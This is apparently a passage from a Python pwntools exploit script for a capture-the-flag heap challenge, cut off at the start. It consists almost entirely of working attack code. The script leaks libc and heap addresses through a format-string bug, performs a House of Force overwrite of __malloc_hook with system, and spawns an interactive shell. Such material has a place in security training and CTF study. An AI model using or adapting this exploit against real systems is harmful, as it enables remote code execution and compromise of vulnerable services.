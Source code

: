 ```python
	if args.GDB:
		return gdb.debug(elf.path, gdbscript=gs)
	elif args.REMOTE:
		return remote(IP, PORT, level=logging)
	else:
		return process(elf.path, level=logging)
	
def malloc(size, data):
	io.sendlineafter(">> ", "1")
	io.sendlineafter(">> ", f"{size}")	
	if data:
		io.sendafter(">> ", data)
	
def pwn():
	global io
	io = start('error')

	# Input name
	io.sendlineafter(": ", "kurosu")

	# Leak libc address
	io.sendlineafter(">> ", "%13$p")
	libc.address = int(io.recvuntil('class!').split()[4], 16) - 0x21c87
	log.info(f"libc base: {hex(libc.address)}")

	# Leak heap address
	io.sendlineafter(">> ", "5")
	io.sendlineafter(">> ", "3")
	io.recvuntil("Class: ")
	heap = unpack(io.recvline().strip().ljust(8, b"\x00")) - 0x12d0
	log.info(f"heap base: {hex(heap)}")

	# House of Force attack
	malloc(24, b"A" * 24 + b"\xff" * 8)
	distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
	malloc(distance, b"/bin/sh\0")
	malloc(24, p64(libc.sym.system))
	malloc(heap + 0x1350, "")
	io.interactive()
	io.close()

if __name__ == "__main__":
	pwn()
```
